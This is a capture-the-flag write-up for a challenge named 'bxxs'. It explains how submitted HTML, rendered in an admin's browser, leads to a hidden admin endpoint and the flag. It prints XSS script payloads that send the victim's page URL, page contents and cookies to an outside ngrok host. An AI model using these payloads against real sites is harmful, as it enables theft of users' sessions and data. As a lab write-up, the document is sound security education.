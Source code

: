 ```yaml
---
description: XSS leads to information leakage of hidden endpoint and authentication bypass.
---
```


# bxxs

## Problem

We've made some new epic updates to our website. Could you send us some feedback on it?

## Solution

We are given an endpoint that allows us to "Send a feedback to admin". I tried submitting URLs but these had no effect.

![](<../../.gitbook/assets/image (7) (1).png>)

Later, I found that we could submit arbitrary HTML that would be rendered by the admin's browser. This could be verified by submitting the following and catching the HTTP request:

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/"; </script>
```

It is then trivial to obtain more information from the victim's browser.

We still don't know how exactly our submitted HTML is handled. Where is it rendered and in what context? To answer that question, I tried the following payload to get the page URL, contents and cookie.

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?url=" + escape(window.location.href); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?doc=" + escape(document.body.innerHTML); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?cookie=" + escape(document.cookie); </script>
```

`window.location.href` gives us the full URL of the browsing context, `document.body.innerHTML` gives us the page contents, and `document.cookie` gives us any cookies that could be read by JavaScript (those without the HttpOnly flag set).

From the output, it appeared that:

* The page URL is `http://0.0.0.0/Secret_admin_cookie_panel`
* Our submitted HTML was the only content present on the page.
* JavaScript could not read any cookies.

My teammate rainbowpigeon then visited the `/Secret_admin_cookie_panel` endpoint and found that this page returned a `Set-Cookie` header for a new cookie with the HttpOnly flag set. This was the "admin cookie" we needed.

![](<../../.gitbook/assets/image (5).png>)

My teammate lim\_yj found that there is a `/flag` endpoint, previously inaccessible without the appropriate cookie.

Visiting the page again with the admin cookie set gives us the flag.

![](<../../.gitbook/assets/image (6) (1).png>)
